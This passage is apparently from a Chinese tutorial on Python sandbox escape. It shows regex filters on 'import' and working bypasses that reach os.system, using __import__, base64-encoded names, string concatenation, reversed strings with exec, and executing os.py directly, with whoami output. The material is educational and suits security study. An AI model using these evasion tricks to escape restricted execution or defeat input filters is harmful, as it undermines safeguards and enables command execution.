

## 函数导入限制和绕过
### import
一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```python
import re,sys

pattern  = re.compile('import\s+(os|subprocess)')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```python
__import__('os').system('ls')
```
```python
__import__
importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用
```python
>>> import base64

>>> base64.b64encode("os")
'b3M='
>>> flag = __import__(base64.b64decode('b3M='))
>>> flag.system('whoami')
misaki\user

>>> import importlib

>>> flag = importlib.import_module('b3M='.decode('base64'))
>>> flag.system('whoami')

misaki\user
```


或者使用字符串拼接的方式
```python
>>> __import__('o'+'s').system('who'+'ami')
aiuser
0
```

字符串f翻转截取
```python
>>> __import__('so'[::-1]).system('whoami')
aiuser
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
aiuser
```

再万一，还可以这么禁止
```python
import re,sys

pattern  = re.compile('import')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile
```python
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径
>>> system('whoami')
aiuser
```

python3可以利用读取文件，配合exec来执行
```python
>>> f = open(r'/usr/lib/python3.6/os.py','r')
>>> exec(f.read())
>>> system('whoami')
aiuser

# 不可以执行利用 exec 打开读取，exec 需要执行的是其中的内容，直接打开的时候 exec 执行的就是读取文件操作
exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式
```python
>>> with open(r'/usr/lib/python3.6/os.py','r') as f:
...     exec(f.read())
...
>>> system('whoami')
aiuser
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。
```python
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')
aiuser
```
这里 exec 不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

